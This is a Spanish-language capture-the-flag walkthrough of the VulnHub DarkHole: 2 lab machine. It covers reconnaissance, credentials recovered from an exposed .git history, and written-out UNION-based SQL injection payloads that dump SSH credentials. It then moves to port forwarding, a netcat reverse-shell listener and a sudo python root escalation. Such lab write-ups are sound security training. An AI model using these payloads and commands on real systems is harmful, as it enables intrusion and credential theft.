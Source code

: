 # VulnHub - DarkHole: 2 Writeup

## Primer paso: Escaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.130: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (SSH y una página web)

Realizamos u n escaneo más profundo con:

```bash
nmap -A -v -n 192.168.226.130
```

![Consola](img/3.png)

Y obtenemos que existe un directorio .git accesible a través del puerto 80

## Segundo paso: Encontrar la vulnerabilidad web

Accedemos a su página web y vemos que en este caso no tiene disponible una pestaña para registrarnos:

![Consola](img/4.png)

Sin embargo, este panel no es vulnerable a SQl injection.

Esta página tiene un directorio .git. Nos lo descargamos con wget para ver los cambios y su código.

```bash
wget -r http://192.168.226.130/.git/
```

Para ver los cambios usaremos:

```bash
git log --oneline
```

![Consola](img/5.png)

Vemos que en el commit anterior (a4d900a), en login.php estaban las credenciales por defecto. Vamos a ver los cambios de ese commit:

```bash
git show a4d9
```

![Consola](img/6.png)

La línea importante es la siguiente:

```php
if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
```

Esta línea se añadió en este commit, pero se eliminó en el siguiente, probamos sus credenciales para acceder. Nos llevará a un panel de control donde podremos ver el usuario:

![Panel de control](img/7.png)

De nuevo, se envía por parámetro el id (?id=1). En este caso, al cambiar el id a 2 se nos mostrará la plantilla que carga los datos. Esto es importante.

## Tercer paso: Explotar SQL Injection
Interceptamos la carga del usuario 1 y la enviamos al repetidor:

![Repeater de BurpSuite](img/8.png)

Al modificar los campos del submit no funcionará, pero se puede modificar la petición GET para introducir SQL tras el id.
Gracias a ello, ahora sabemos que la tabla que está consultando la base de datos tiene 6 columnas:

![Repeater de BurpSuite](img/9.png)

La columna 1 es el id de la fila, pero la columna 4 no la usa la plantilla. Aun así vamos a hacer un mapa de la base de datos cambiando un número por una función:
Es muy importante revisar varias veces los datos y codificarlos a URL una sola vez.

- database() Nos dará el nombre de la base de datos. darkhole_2
- union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--+- Muestra todas las bases de datos. mysql,information_schema,performance_schema,sys,darkhole_2
En este caso sólo nos interesa la base de datos darkhole_2
- '+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- Muestra las tablas de la base de datos darkhole_2. ssh,user
Los datos de la tabla ssh pueden ser interesantes.
- '+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- para ver el nombre de las columas. id pass user
La columna id no nos interesa, tenemos que extraer los datos de user y pass.
- '+union+select+1,group_concat('usuario:+',user,'pass:+',pass),3,4,5,6+from+ssh--+- Extrae el usuario y la contraseña del id 1 de la tabla ssh.

![Repeater de BurpSuite](img/10.png)

Hay que tener especial cuidado con las comillas, en el último caso el nombre de la tabla no lleva comillas, pero en el resto sí. Esto depende si va detrás de un from o de un = (%3d encodeado a URL).

Ya tenemos entonces el usuario y la contraseña para conectarnos por SSH: jehad y fool.

## Cuarto paso: Escalar privilegios con SSH
Nos conectamos por SSH a través del terminal con el siguiente comando:

```bash
ssh jehad@192.168.226.130
```

Al haber enterado con un usuario distinto a www-data, podemos ver su historial de comandos:

```bash
cat .bash_history | less
```

![Histórico de comandos](img/11.png)

Al parecer, hay levantado en el puerto 9999 un servidor web levantado. Este puerto no fue detectado con netcat porque no es accesible desde el exterior.

Podemos hacer un port forwarding desde nuestra consola con SSH:

```bash
ssh jehad@192.168.226.130 -L 9999:localhost:9999
```
Ahora, accediendo a http://127.0.0.1:9999/ veremos que acepta el parámetro cmd para ejecutar comandos.

![Página web](img/12.png)

El usuario que corre el servicio es losy, podría ser interesante acceder a este. Para ello creamos una web shell.

Abrimos otra consola y escuchamos con netcat:

```bash
nc -lvnp 8888
```

Y entramos en la página [https://www.revshells.com/](RevShells) para generar la consola.

En este caso, funcionó la siguiente configuración:

![Reverse shell](img/13.png)

En la carpeta /home/losy encontramos la primera flag:


![Reverse shell](img/14.png)

De nuevo, viendo el histórico de comandos, encontramos una contraseña:

```bash
cat .bash_history | less
```

![Password](img/15.png)

Ahora que tenemos la contraseña de losy, vamos a consultar qué podemos ejecutar como root:

```bash
sudo -l
```
![Consola](img/16.png)

Podemos ejecutar python. Con él podemos darnos acceso a la consola de root. Creamos un archivo con el siguiente contenido o lo ponemos en el interprete de python:

```python
import pty;
pty.spawn("/bin/bash")
```

![Consola](img/17.png)

Con esto podemos acceder a la flag:

![Consola](img/18.png)
